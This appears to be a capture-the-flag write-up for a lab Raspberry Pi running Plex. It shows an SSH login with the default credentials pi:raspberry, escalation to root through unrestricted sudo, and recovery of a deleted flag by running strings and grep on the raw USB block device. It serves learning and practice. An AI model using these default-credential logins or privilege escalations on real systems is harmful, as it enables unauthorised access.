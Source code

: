 Accesing to http://10.10.10.48/admin we found that we are facing a Raspberry Pi device which host a Plex server. Trying the default credentials through SSH (pi:raspberry) we have access.

And checking the sudoers we have root access

```bash
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# whoami
root
```

To retrieve the root flag we found the following message

```bash
root@raspberrypi:/home/pi# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...

root@raspberrypi:/home/pi# ls /media/usbstick/
damnit.txt  lost+found

root@raspberrypi:/home/pi# cat /media/usbstick/damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

So lets try to read the raw memory

```bash
root@raspberrypi:/media/usbstick# mount
[...SNIP...]
/dev/sdb on /media/usbstick type ext4 

root@raspberrypi:/media/usbstick# cat /dev/sdb

(Z"�      sx>esx>e��S��1�Y
                          �<Byc[��B)�>r &�</media/usbstick�yZ�.Gu���m^��>
                                                                         �1�Y
�|*,.�▒���}+-��Ո         
 
  
           ▒  ▒       ! " # $ % & ' ( ) ������������������������������������������������������������������������������������������������������������������������������������������������������������������[...SNIP...]
```

As we know that the flag is a 32 string character, we can filter by the following code

```bash
root@raspberrypi:/media/usbstick# strings /dev/sdb -n 32
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
```

And we have it. We could have use grep and regex too

```bash
root@raspberrypi:# grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
3d3e483143ff12ec505d026fa13e020b
```